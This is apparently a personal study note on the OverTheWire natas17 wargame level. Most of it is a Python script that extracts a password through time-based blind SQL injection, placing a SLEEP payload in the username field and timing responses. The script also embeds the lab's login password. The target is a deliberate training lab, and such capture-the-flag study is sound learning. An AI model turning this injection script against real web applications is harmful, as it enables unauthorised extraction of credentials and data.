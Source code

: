 
2024-07-20 14:18

Source:  #natas 

similar to the [[BlindSQL]] problem in  [[SQL injection w py]] this problem also has one input field named username and a DB schema that defines username and password fields
the difference is that the echo statements are commented out, so we don't get to know if the username with a specified character exists or not .

```python
import requests
import re
import string
from time import *

characters = string.ascii_letters+"0123456789"
username = 'natas17'
password = 'EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC'

url = 'http://natas17.natas.labs.overthewire.org/?debug=true'
session = requests.Session()
seen_password = list()

while ( len(seen_password) < 32 ):
    for character in characters:
    
        start_time = time()
        # print ("start_time", start_time)
        print ("trying", "".join(seen_password) + character)
        
        response = session.post(url, data = {"username": 'natas18" AND BINARY password LIKE "' + "".join(seen_password) + character +  '%" AND SLEEP(1) # '}, auth = (username, password) )

        content = response.text
        end_time = time()
        # print ("end_time", end_time)
        difference = end_time - start_time

        if ( difference > 1 ):
            # success, correct character!
            seen_password.append(character)
            break
        # print content
```
## TLDR 

- start timer before posting request and end timer after receiving the request 
- in the response we create a delay of 1 second if we find the character in the password 
- we then measure the difference between start time and end time 
- for characters with delay of more than 1 second we add them to the seen list

### References
https://www.youtube.com/watch?v=GDOpW-LShy8&t=1s